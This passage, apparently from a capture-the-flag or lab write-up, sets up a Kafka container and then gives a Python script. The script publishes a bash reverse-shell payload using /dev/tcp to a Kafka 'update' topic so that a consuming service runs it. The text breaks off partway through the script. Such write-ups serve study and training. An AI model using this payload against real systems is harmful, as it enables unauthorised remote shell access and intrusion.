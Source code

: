 And also create a `kafka` folder and add a `Dockerfile` to build the image.

```dockerfile
# Use Confluent's official Kafka image
FROM confluentinc/cp-kafka:latest

# Expose broker and controller ports
EXPOSE 9092 9093
```

Start the Kafka instance.

```bash
└─$ sudo docker-compose up -d kafka
WARN[0000] The "KAFKA_BROKER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "GITEA_USERNAME" variable is not set. Defaulting to a blank string. 
WARN[0000] The "GITEA_EMAIL" variable is not set. Defaulting to a blank string. 
WARN[0000] The "GITEA_PASSWORD" variable is not set. Defaulting to a blank string. 
WARN[0000] The "CA_FILE" variable is not set. Defaulting to a blank string. 
WARN[0000] The "EXPECTED_RECIPIENT" variable is not set. Defaulting to a blank string. 
WARN[0000] The "MAIL_BOT_INTERVAL" variable is not set. Defaulting to a blank string. 
WARN[0000] The "PHISHING_USERNAME" variable is not set. Defaulting to a blank string. 
WARN[0000] The "PHISHING_PASSWORD" variable is not set. Defaulting to a blank string. 
WARN[0000] The "MAILHOG_SERVER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "EXPECTED_DOMAIN" variable is not set. Defaulting to a blank string. 
WARN[0000] The "SMTP_SERVER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "SMTP_PORT" variable is not set. Defaulting to a blank string. 
WARN[0000] The "DATABASE_HOST" variable is not set. Defaulting to a blank string. 
WARN[0000] The "DATABASE_USER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "DATABASE_PASSWORD" variable is not set. Defaulting to a blank string. 
WARN[0000] The "SITE_ADMIN_PASSWORD" variable is not set. Defaulting to a blank string. 
WARN[0000] The "KAFKA_BROKER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "API_PREFIX" variable is not set. Defaulting to a blank string. 
WARN[0000] The "DATABASE_USER" variable is not set. Defaulting to a blank string. 
WARN[0000] The "DATABASE_PASSWORD" variable is not set. Defaulting to a blank string. 
[+] Running 2/2
 ✔ Network infrastructure_default    Created                                                                                                                                                                                                                                                                           0.3s 
 ✔ Container infrastructure-kafka-1  Started
```

Second, create a python script to send a message to the **update** topic.

```python
#!/usr/bin/env python3
from kafka import KafkaProducer
import sys

def send_reverse_shell(target_ip, target_port, kafka_host='localhost:9092'):
    try:
        # Create producer
        producer = KafkaProducer(bootstrap_servers=[kafka_host])
        
        # Reverse shell payload
        payload = f'/bin/bash -i >& /dev/tcp/{target_ip}/{target_port} 0>&1'.encode()
        
        # Send message
        future = producer.send('update', value=payload)
        result = future.get(timeout=10)
        
        print(f"[+] Sent reverse shell to {target_ip}:{target_port}")
        print(f"[+] Topic: {result.topic}, Partition: {result.partition}")
        
        producer.close()
        return True
```